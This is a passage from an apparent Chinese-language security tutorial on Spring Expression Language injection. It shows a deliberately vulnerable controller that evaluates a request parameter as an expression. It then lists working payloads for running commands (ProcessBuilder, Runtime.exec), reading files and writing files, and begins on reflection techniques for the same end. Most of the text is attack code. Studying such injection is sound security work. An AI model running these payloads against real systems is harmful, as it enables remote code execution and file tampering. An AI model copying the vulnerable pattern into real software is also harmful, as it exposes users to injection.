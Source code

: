 示例代码
```java
@RequestMapping("/spel")
    public String TestSpel(HttpServletRequest request,HttpServletResponse response) throws IOException {

        String a = request.getParameter("a");
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(a);
        return expression.getValue().toString();
    }
```
![Y6GMJH.png](https://s1.ax1x.com/2020/05/16/Y6GMJH.png)
### (1)常规注入

**执行命令**
```java
new java.lang.ProcessBuilder("calc").start()
```
![Y6GQWd.png](https://s1.ax1x.com/2020/05/16/Y6GQWd.png)
```java
T(java.lang.Runtime).getRuntime().exec("calc")
```
![Y6GKFe.png](https://s1.ax1x.com/2020/05/16/Y6GKFe.png)

**读文件** 仅第一行
```java
new java.util.Scanner(new java.io.File("filepath")).next()
```
![Y6JlAU.png](https://s1.ax1x.com/2020/05/16/Y6JlAU.png)
```java
new java.io.BufferedReader(new java.io.FileReader(new java.io.File("filepath"))).readLine()
```
![Y6JM7T.png](https://s1.ax1x.com/2020/05/16/Y6JM7T.png)


**写文件**
```java
new java.io.FileOutputStream(new java.io.File("filepath")).write("Diego".getBytes())
```
![Y6J7gs.png](https://s1.ax1x.com/2020/05/16/Y6J7gs.png)
虽然报错了，但是文件正常写入

### (2)利用java 反射机制

在反射⾥极为重要的⽅法：
* **获取类的⽅法： forName**
* **实例化类对象的⽅法： newInstance**
* **获取函数的⽅法： getMethod**
* **执⾏函数的⽅法： invoke**

java 获取class 的方式
* **第一种：通过类名获得**
　　**Class<?> class = ClassName.class;**
![Y6tRk8.png](https://s1.ax1x.com/2020/05/16/Y6tRk8.png)
